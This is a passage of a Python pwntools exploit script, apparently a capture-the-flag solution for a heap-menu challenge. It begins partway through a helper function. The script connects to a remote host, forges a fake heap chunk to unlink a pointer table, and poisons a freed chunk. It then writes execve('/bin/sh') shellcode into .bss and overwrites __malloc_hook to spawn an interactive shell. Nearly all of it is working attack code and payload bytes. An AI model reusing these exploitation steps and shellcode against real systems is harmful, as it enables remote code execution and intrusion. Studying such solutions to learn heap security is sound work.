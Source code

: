 ```python
	r.recvuntil("Your choice :")
	r.sendline('3')
	r.recvuntil("Index: ")
	r.sendline(index)
	r.recvuntil("Size: ")
	r.sendline(size)
	r.recvuntil("Data: ")
	r.send(content)
r = remote("61.147.171.105", 63583)
malloc_hook = 3951376
bss = 0x601020
buf = 0x601040
#	chunk 0 
add(str(0x90), 'a\n')
#	chunk 1
add(str(0x90), 'b\n')
#	fake chunk
#	pre_size, size
payload = p64(0) + p64(0x91) 
#	fd, bk  
payload += p64(buf - 0x18) + p64(buf - 0x10)  
payload += p64(0) * 14
#	change chunk size of 1
payload += p64(0x90) + p64(0xa0)  
edit('0', str(len(payload)), payload)
delete('1')
payload = p64(0) * 3 + p64(bss) + p64(buf) + p64(0) * 3 + p64(0x20)
#	change buf[0] pointer to bss, buf[1] to buf
edit('0', str(len(payload)), payload) 
#	chunk 2
add(str(0x100), 'c\n')
#	chunk 3
add(str(0x100), 'd\n')
delete('2')
payload = p64(0) + p64(buf + 0x8 * 4)
edit('2', str(len(payload)), payload)
#	chunk 4, addr is the same with chunk2
add(str(0x100), 'e\n')
payload = p64(bss) + p64(buf) + p64(0) * 4 + b'\x10'
edit('1', str(len(payload)), payload)
shellcode = b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
edit('0', str(len(shellcode)), shellcode)
#	change malloc hook
edit('6', '8', p64(bss))
r.recvuntil("Your choice :")
r.sendline('1')
r.recvuntil("Size: ")
r.sendline('1')
r.interactive()
```
